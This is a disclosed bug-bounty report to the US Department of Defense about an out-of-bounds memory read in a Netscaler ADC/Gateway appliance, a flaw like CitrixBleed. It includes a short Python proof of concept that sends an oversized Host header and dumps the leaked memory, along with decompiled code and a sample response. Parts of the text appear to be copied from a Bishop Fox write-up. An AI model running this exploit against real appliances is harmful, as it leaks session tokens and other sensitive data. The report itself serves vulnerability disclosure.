 # Out-Of-Bounds Memory Read on ███

## Report Details
- **Report ID**: 2509402
- **URL**: https://hackerone.com/reports/2509402
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2024-05-16T19:04:15.470Z
- **Disclosed**: 2024-06-18T16:59:47.739Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Vulnerability Identifier: OOB Memory Read (CVE-ID Pending)

Affected System: Netscaler ADC and Gateway deployed at https://███████/nf/auth/doAuthentication.do

Overview:
An out-of-bounds (OOB) memory read vulnerability has been identified in Netscaler ADC (Application Delivery Controller) and Gateway, which are network appliances used for load balancing, security, and traffic management. This vulnerability affects the instance deployed at https://███/nf/auth/doAuthentication.do. Exploitation of this vulnerability could potentially lead to unauthorized access to sensitive information, service disruption, or further exploitation of the affected system.

Vulnerability Details:
The OOB memory read vulnerability arises due to improper input validation or boundary checking within the affected Netscaler ADC and Gateway appliances. Attackers may exploit this vulnerability by crafting malicious requests or payloads designed to trigger an out-of-bounds memory read condition. Successful exploitation could allow attackers to read arbitrary memory locations, potentially leading to the disclosure of sensitive information or the execution of unauthorized actions within the context of the affected system.

The following Python proof-of-concept code can be used to demonstrate exploitability when executed against a vulnerable appliance:
```
import requests 
url = "https://███/nf/auth/startwebview.do"  
r = requests.get(url, headers={"Host":"A"*0x5000}, verify=False)  

print(r.content[0x1800:])
```
Requests to the /nf/auth/startwebview.do URI are handled by the ns_aaa_start_webview_for_authv3 function. The ns_aaa_start_webview_for_authv3 function constructs an XML response using the snprintf function and returns this response to the user by calling the ns_vpn_send_response function, as shown below:
```
sprintf(print_temp_rule,"%s%.*s%s",proto,iVar5 - (int)host_hdr,host_hdr, 
  "/nf/auth/doWebview.do"); 
length = snprintf(&ns_HttpRedirectPkt,0x1800, 
  "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?><AuthenticateRespo nse xmlns=\"http://citrix.com/authentication/response/1\"><Status>success</Statu s><Result>more-info</Result><StateContext></StateContext><AuthenticationRequirem ents><PostBack>/nf/auth/webview/done</PostBack><CancelPostBack>/nf/auth/doLogoff .do</CancelPostBack><CancelButtonText>Cancel</CancelButtonText><Requirements><Re quirement><Credential><ID>samlResponse</ID><Type>webview</Type><wv:WebView xmlns :wv=\"http://citrix.com/authentication/response/webview/1\"><wv:StartUrl>%.*s</w v:StartUrl></wv:WebView></Credential><Label><Type>none</Type></Label><Input/></R equirement></Requirements></AuthenticationRequirements></AuthenticateResponse>" 
  ,length,print_temp_rule); 
ns_vpn_send_response(lVar1,0x980200,&ns_HttpRedirectPkt,length);
```
The ns_vpn_send_response function sends an HTTP response where the body and size of the body are provided as parameters. In the code shown above, the size is set to the return value from the snprintf function. According to the documentation for the snprintf function, the return value is the number of characters that would have been written if enough space had been available. Therefore, if the constructed response would have exceeded the buffer size (0x1800 bytes in this case), the ns_vpn_send_response function will respond with extra data past the end of the buffer. This is identical to the underlying cause of CVE-2023-4966 (CitrixBleed).

The unsafe use of the sprintf function in the ns_aaa_start_webview_for_authv3 function is discussed in more detail in the Insecure String Handling finding of this report.

Bishop Fox staff analyzed prior releases of vulnerable Citrix deployments and observed instances where the disclosed memory contained data from HTTP requests, sometimes including POST request bodies. For example, the response below includes data from another HTTP request processed by the appliance, apparently related to a Nessus vulnerability scan:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><AuthenticateResponse xmlns="http://citrix.com/authentication/response/1"><Status>success</Status><Result>more-info</Result><StateContext></StateContext><AuthenticationRequirements><PostBack>/nf/auth/webview/done</PostBack><CancelPostBack>/nf/auth/doLogoff.do</CancelPostBack><CancelButtonText>Cancel</CancelButtonText><Requirements><Requirement><Credential><ID>samlResponse</ID><Type>webview</Type><wv:WebView xmlns:wv="http://citrix.com/authentication/response/webview/1"><wv:StartUrl>https://█████████/nf/auth/doWebview.do</wv:StartUrl></wv:WebView></Credential><Label><Type>none</Type></Label><Input/></Requirement></Requirements></AuthenticationRequirements></AuthenticateResponse>
```

## Impact

Impact:
If successfully exploited, the OOB memory read vulnerability in Netscaler ADC and Gateway could have several adverse consequences, including:

1-Information Disclosure: Attackers may be able to read sensitive data stored in memory, such as cryptographic keys, session tokens, or configuration details, leading to unauthorized access or further compromise of the system.
2-Service Disruption: Exploitation of the vulnerability could result in the disruption or denial of service for legitimate users, impacting the availability and performance of the affected services or applications.
3-Privilege Escalation: In some scenarios, attackers may leverage the information obtained through OOB memory reads to escalate their privileges or execute additional attacks against the affected system or its users.

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
python code

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments

